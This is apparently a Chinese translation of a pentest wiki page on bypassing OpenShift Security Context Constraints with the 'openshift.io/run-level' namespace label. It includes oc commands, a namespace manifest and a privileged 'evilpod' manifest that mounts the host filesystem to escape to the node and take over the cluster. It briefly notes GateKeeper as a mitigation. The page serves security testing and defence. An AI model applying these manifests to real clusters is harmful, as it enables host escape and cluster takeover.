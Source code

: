 # Openshift - SCC绕过

**本页面的原作者是** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## 特权命名空间

默认情况下，SCC不适用于以下项目：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

如果您在这些命名空间之一部署Pod，将不会执行任何SCC，允许部署特权Pod或挂载主机文件系统。

## 命名空间标签

根据RedHat文档，有一种方法可以禁用Pod上的SCC应用程序。您将需要至少具备以下权限之一：

- 在命名空间上创建Pod
- 编辑命名空间并在该命名空间上创建Pod
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定标签 `openshift.io/run-level` 使用户能够绕过应用程序的 SCC。根据 RedHat 文档，当使用此标签时，在该命名空间中的所有 pod 上不会执行任何 SCC，有效地移除了任何限制。

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 添加标签

要在您的命名空间中添加该标签：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
要通过一个YAML文件创建一个带有标签的命名空间：
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
现在，在该命名空间上创建的所有新 pod 不应该有任何 SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

在没有 SCC 的情况下，对您的 pod 定义没有任何限制。这意味着可以轻松创建恶意 pod 以逃逸到主机系统。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
现在，提升权限以访问主机系统并随后接管整个集群，获取 'cluster-admin' 权限变得更加容易。在以下页面中查找 **Node-Post Exploitation** 部分：

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### 自定义标签

此外，根据目标设置，一些自定义标签 / 注释可能会以与先前攻击场景相同的方式使用。即使不是为此目的，标签也可以用于授予权限、限制或不限制特定资源。

尝试查找自定义标签，如果可以读取一些资源的话。以下是一些有趣的资源列表：

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 列出所有特权命名空间
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高级利用

在 OpenShift 中，正如之前演示的，拥有在带有 `openshift.io/run-level` 标签的命名空间中部署 pod 的权限可能导致对集群的简单接管。从集群设置的角度来看，这种功能**无法被禁用**，因为它是 OpenShift 设计的固有部分。

然而，像**Open Policy Agent GateKeeper**这样的缓解措施可以阻止用户设置此标签。

为了绕过 GateKeeper 的规则并设置此标签以执行集群接管，**攻击者需要识别替代方法。**

## 参考资料

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
